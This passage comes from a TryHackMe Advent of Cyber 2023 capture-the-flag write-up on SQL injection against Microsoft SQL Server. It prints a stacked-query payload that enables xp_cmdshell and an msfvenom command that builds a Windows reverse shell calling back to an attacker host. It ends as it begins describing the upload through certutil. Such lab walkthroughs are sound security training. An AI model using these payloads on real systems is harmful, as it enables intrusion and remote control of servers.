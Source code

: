 ![Advent of Cyber 2023 Day 10 - First Flag](tryhackme/images/aoc2023d10_first_flag.png)

Now that we can successfully exploit this vulnerability, we can attempt to get a shell on the system. From our initial testing, we discovered that the system is running a **Microsoft SQL Server**. Within this software is a stored procedure called [xp_cmdshell](https://learn.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql?view=sql-server-ver16) which spawns a Windows command shell and can be manually enabled with the SQL `EXECUTE`, or `EXEC`, command.

Firstly, we need to enable some advanced configuration options within the SQL server. We do this by injecting the following payload into one of the variables:

```
'; EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE; --
```

From here, we can generate a reverse shell via `msfvenom`. This can be accomplished as follows:

```console
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ATTACKER_IP> LPORT=<PORT> -f exe -o reverse_shell.exe
```

This will create a `reverse_shell.exe` file using the payload `windows/x64/shell_reverse_tcp` and setting the host / port to our attacker machine.

With our payload generated, we need to upload it to the web server. To do this, we will use the Python HTTP server on our attacker machine and `certutil` within our SQLi payload:
